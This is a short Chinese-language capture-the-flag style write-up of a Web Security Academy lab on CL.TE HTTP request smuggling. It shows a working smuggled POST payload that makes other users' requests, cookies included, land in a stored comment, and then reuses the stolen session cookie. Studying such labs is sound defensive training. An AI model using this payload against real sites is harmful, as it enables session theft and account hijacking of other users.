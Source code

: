 # 回显其他用户的请求包

之前提到过 HTTP 请求走私能通过 POST 回显的方式获取 normal 包的请求头，那么你也可以将 normal 包放在发表评论或文章的 POST 参数中，导致你发表评论的 POST 参数拼接了其他用户的 normal 包，导致评论内容是 normal 包，通常用于窃取 cookie。

1. 存在 CL.TE 漏洞。

![image-20250410205451334](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410205451334.png)

2. 以下是用户发表评论的数据包格式：

![image-20250410210205021](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410210205021.png)

3. 借助这个数据包构造 attack 包：（发送 attack 后，这个靶场其他用户会间歇性的发送数据包作为后续的 normal 包。）

```
Content-Length: 345
Transfer-Encoding: chunked

e
q=smuggling&x=
0

POST /post/comment HTTP/1.1
Host: 0a3700ff03277ea5837d6e18005e0091.web-security-academy.net
Cookie: session=dBvL59roNeWzX2NkWSyMX2sghB8qdZ5H
Content-Length: 800

csrf=NBbFRPPNVqxrxrDzj5ohNADF9MOofRlX&postId=5&name=tt&email=dan@oo.com&website=https://0a3700ff03277ea5837d6e18005e0091.web-security-academy.net&comment=
```

![image-20250410210722287](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410210722287.png)

4. 查看评论区（注：下面截的图是自己发的 normal 包，而不是其他用户的 normal 包，算是一个小失误）

![image-20250410210757392](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410210757392.png)

5. 然后使用它的 cookie 访问主页即可。

![image-20250410214044828](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410214044828.png)